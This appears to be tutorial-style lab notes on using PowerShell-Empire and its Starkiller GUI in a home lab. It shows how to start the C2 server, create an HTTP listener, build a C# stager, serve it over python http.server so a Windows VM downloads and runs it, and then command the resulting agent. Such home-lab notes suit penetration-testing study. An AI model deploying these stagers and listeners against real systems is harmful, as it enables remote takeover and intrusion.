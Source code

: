 * PowerShell-Empire is primarily designed for Windows targets
* **`Starkiller`** - GUI frontend for `PowerShell-Empire`
* [Kali Linux install](https://www.kali.org/tools/powershell-empire/)

```bash
sudo apt-get update && sudo apt-get install powershell-empire startkiller -y
```

> 🔬 Home Lab based on a Kali Linux attacker VM and Win7 target VM with IP `192.168.31.131`

```bash
# server is the backend of the powershell-empire managning listners, agents etc.
sudo powershell-empire server
```

* In another terminal tab

```bash
sudo powershell-empire client
```

```bash
listeners
agents
```

* Open Starkiller from Kali program menu
  * `http://localhost:1337/index.html#/`
  * Credentials: `empireadmin`:`password123`
* Run the `csharpserver`
* Create a `http` **listener** to receive the reverse connection from the target system
* Generate a **Stager** with `windows/csharp_exe` type, 'http' listner, 'csharp' language, 'stager.exe' for opfile
* Actions - Download the `stager.exe` stager

```bash
# Open a new terminal window
cd Downloads
#below commmand for phyton3. for python2 its SimpleHTTPServer
python3 -m http.server 80

# On the Windows VM download the Stage.exe from http://192.168.31.128/
# Run it
```

* Back on the Starkiller **Agents** page, check for the active agent
 * Interact - run command
 * File Browser - view all files
 * Tasks
 * View - All connection and system info

* Back in the Empire terminal session
```bash
agents
whoami
ipconfig
interact <ID>
history
```
